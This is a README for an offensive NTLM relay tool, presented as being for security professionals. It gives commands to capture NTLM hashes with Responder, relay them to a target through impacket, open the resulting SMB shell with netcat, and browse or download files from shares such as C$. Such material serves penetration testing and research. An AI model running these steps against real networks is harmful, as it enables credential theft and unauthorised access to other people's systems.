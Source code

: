 # ntlm-relay-tool/README.md

# NTLM Relay Tool

## Overview

The NTLM Relay Tool is a modular application designed to capture NTLM hashes, store them securely, and exploit them through NTLM relay attacks and password cracking. This tool is intended for security professionals and researchers to analyze NTLM authentication vulnerabilities.

## Features

- **Capture Module**: Captures NTLM authentication requests using the Responder tool.
- **Storage Module**: Manages the storage of captured hashes and related data in a database.
- **Exploit Module**: Facilitates NTLM relay attacks and password cracking using captured hashes.

## Dependencies

The NTLM Relay Tool requires the following dependencies:

- Python 3.6 or higher
- MongoDB (for hash storage)
- Impacket library (for reliable NTLM relay attacks)

### Installing Dependencies

Install required Python packages:
```bash
pip install -r requirements.txt
```

Install Impacket (required for relay functionality):
```bash
pip install impacket
# or on Kali Linux:
apt update && apt install -y python3-impacket
```

## Usage

### NTLM Capture

To capture NTLM authentication attempts:
```bash
python src/main.py capture --interface eth0
```

### NTLM Relay Attack

To perform an NTLM relay attack:
```bash
python src/main.py relay --target <target_ip>
```

The relay mode leverages impacket-ntlmrelayx for reliable SMB protocol handling. After a successful relay, an interactive SMB shell will be available at localhost:11000. Connect to it using:
```bash
nc 127.0.0.1 11000
```

#### Common SMB Shell Commands

Once connected to the SMB shell, you can use these commands:
```
help       - Show available commands
shares     - List available shares on the target
use <share>- Connect to a specific share (e.g., "use C$")
ls         - List files in current directory
cd <dir>   - Change directory
get <file> - Download a file
put <file> - Upload a file
cat <file> - Display contents of a file
```

#### Ending a Relay Session

To stop the relay:
1. Press Ctrl+C in the terminal running the relay tool
2. Close any active SMB shell sessions with `exit` command

## Testing

To run the unit tests, use:
```bash
pytest tests/
```

## Contributing

Contributions are welcome! Please submit a pull request or open an issue for any enhancements or bug fixes.

## License

This project is licensed under the MIT License. See the LICENSE file for details.